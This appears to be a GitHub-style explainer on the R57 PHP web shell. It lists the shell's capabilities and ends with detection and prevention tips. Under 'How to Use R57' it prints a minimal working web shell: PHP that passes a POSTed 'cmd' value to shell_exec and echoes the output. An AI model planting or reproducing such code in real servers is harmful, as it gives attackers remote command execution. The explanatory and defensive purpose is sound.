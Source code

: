 # R57 Shell - Usage and Effects on Servers

## Images

![R57 Shell](https://r00t-shell.com/wp-content/uploads/2025/02/R57-Shell.png)

💻 **A Detailed Analysis on Cybersecurity and Web Security**

## What is R57?

R57 Shell is a type of **web shell** commonly used by malicious actors. This PHP-based ability allows attackers to control a server remotely. Web shells are used for tasks such as file management, command execution, and data theft on servers.

## What Can R57 Do on a Server?

When R57 Shell is uploaded to a server, it can perform the following actions:

- 📂 **File Management:** Uploading, downloading, editing, and deleting files.
- 🖥️ **Command Execution:** Running operating system-level commands on the server.
- 📊 **Database Management:** Accessing databases and executing SQL queries.
- 🔍 **Gathering Server Information:** Viewing server details such as the operating system, PHP version, and configuration.
- 🚪 **Creating Backdoors:** Setting up backdoors for future access.

## How to Use R57

R57 Shell is typically uploaded to a server as a PHP file. The attacker executes this file to control the server through a web-based interface. Here’s an example:

```php
<?php
if (isset($_POST['cmd'])) {
    $cmd = $_POST['cmd'];
    echo "<pre>" . shell_exec($cmd) . "</pre>";
}
?>
```

This code provides a command execution feature. An attacker can use this code to execute commands on the server.

## Detection and Prevention of R57

> ⚠️ **Warning:** Abilities like R57 Shell are used for illegal activities and pose serious security risks. If you detect such a file on your server, you should remove it immediately.

To detect and prevent R57 Shell, you can follow these steps:

- 🔒 **Fix Security Vulnerabilities:** Regularly patch security vulnerabilities in your web application.
- 🛡️ **File Upload Controls:** Check the type and content of uploaded files.
- 🔍 **Log Analysis:** Review server logs to identify suspicious activities.
- 🧹 **File Scanning:** Scan and remove suspicious PHP files on the server.

> ✅ **Tip:** Use a Web Application Firewall (WAF) to block malicious traffic.


> **Note:** Make sure to replace the image link with a valid one if you need to add any.
